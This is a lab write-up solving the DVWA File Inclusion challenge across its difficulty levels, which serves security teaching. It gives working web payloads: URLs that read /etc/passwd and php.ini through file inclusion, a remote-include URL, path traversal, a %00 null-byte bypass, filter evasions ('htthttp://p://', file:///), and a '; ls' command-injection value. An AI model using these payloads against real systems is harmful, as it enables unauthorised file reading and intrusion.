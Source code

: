 # DVWA - File Inclusion Solution

## Turn on the allow_url_include
> Use `find /opt -name php.ini` to find the config in the /opt.
> And change the "allow_url_include" to `allow_url_include = on`.
> Then restart the lampp using `/opt/lampp/lampp restart`.

> `/opt/lampp/htdocs/DVWA-master/php.ini`
```
magic_quotes_gpc = Off
allow_url_fopen = on
allow_url_include = on
```
> `/opt/lampp/etc/php.ini`
```
; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-include
allow_url_include=On
```

## Low level
> We can see the source code, the web doesn't filter the URL, so we can change the URL to get any file in this server.
> 
> ![](https://i.imgur.com/34TAw1f.png)

> Let's try to change the URL to get some sensitive file in this server. ex(http://192.168.1.66/DVWA-master/vulnerabilities/fi/?page=/etc/passwd)
> 
> ![](https://i.imgur.com/mGlGUbO.png)

> Or we can use the command infection to list the file in this folder using `; ls ../fi`. We can see there is a file not showed in File Inclusion.
> 
> ![](https://i.imgur.com/O6lxmpc.png)

> And use the `http://192.168.1.66/DVWA-master/vulnerabilities/fi/?page=file4.php` to get the context of file.
> 
> ![](https://i.imgur.com/xSOQ3JW.png)

> You also can read the file on another server use the following URL.
> `http://192.168.1.66/DVWA-master/vulnerabilities/fi/?page=http://192.168.1.66/test.html`
> ![](https://i.imgur.com/l82nuf7.png)


> P.S.
> Before PHP Ver. 5.45 and `Magic_quote_gpc` is turned off the following URL is the same.
> After Ver. 5.45 the function `Magic_quote_gpc` is deleted.
> `http://192.168.1.66/DVWA/vulnerabilities/fi/?page=..\..\..\..\WWW\DVWA\php.ini`
`http://192.168.1.66/DVWA/vulnerabilities/fi/?page=..\..\..\..\WWW\DVWA\php.ini%0012.php`
> If the URL be requested need to end of .php we can use `%00` to bypass.
> 

## Medium level
> We can see the following coe, it let the `http://` and `https://` to be `""` so it seem can filter the get the remote file. However, we can use `htthttp://p://` to bypass.
```php
$file = str_replace( array( "http://", "https://" ), "", $file );
```
> And the following code is let the user can't use the relative path to get the file, but we can still use the absolute path to read the file.
> 
> Like the following figure: 
> 
> ![](https://i.imgur.com/YM8jw73.png)


## High level 
> We can see the source code, it filter the URL the URL after page need to start at `file`. So, we can use the`file:///` to bypass.
> Use `http://192.168.1.66/DVWA-master/vulnerabilities/fi/?page=file:////etc/passwd`
> 
> ![](https://i.imgur.com/Wbgu88l.png)


## Impossible level 
> In this level the web set the whitelist if the file we want to get is not in the `include.php` it will not work.
> So we da not hvae the way to attack.
> 
> ![](https://i.imgur.com/yHxVRns.png)



